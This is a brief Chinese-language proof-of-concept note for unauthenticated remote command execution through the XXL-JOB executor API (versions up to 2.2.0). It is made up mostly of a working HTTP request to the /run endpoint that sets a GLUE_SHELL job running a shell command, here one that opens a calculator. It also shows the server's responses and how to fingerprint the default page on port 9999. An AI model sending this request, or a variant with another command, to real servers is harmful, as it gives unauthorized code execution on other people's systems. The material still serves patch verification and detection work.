





# xxl-job 执行器 RESTful API 未授权访问 RCE

`XXL-JOB <= 2.2.0`









## Burpsuite

```
POST /run HTTP/1.1
Host: 127.0.0.1:9999
Content-Length: 365
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_SHELL",
  "glueSource": "open -a Calculator",
  "glueUpdatetime": 1586629003727,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```

```
HTTP/1.1 200 OK
content-type: text/html;charset=UTF-8
content-length: 12

{"code":200}
```

## 9999 default page
```
http://127.0.0.1:9999/

HTTP/1.1 200 OK
content-type: text/html;charset=UTF-8
content-length: 61
connection: keep-alive

{
  "code": 500,
  "msg": "invalid request, HttpMethod not support."
}


POST

POST / HTTP/1.1
Host: 127.0.0.1:9999
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


HTTP/1.1 200 OK
content-type: text/html;charset=UTF-8
content-length: 63

{
  "code": 500,
  "msg": "invalid request, uri-mapping(/) not found."
}
```

## 参考链接

https://landgrey.me/blog/18/
https://www.xuxueli.com/xxl-job/
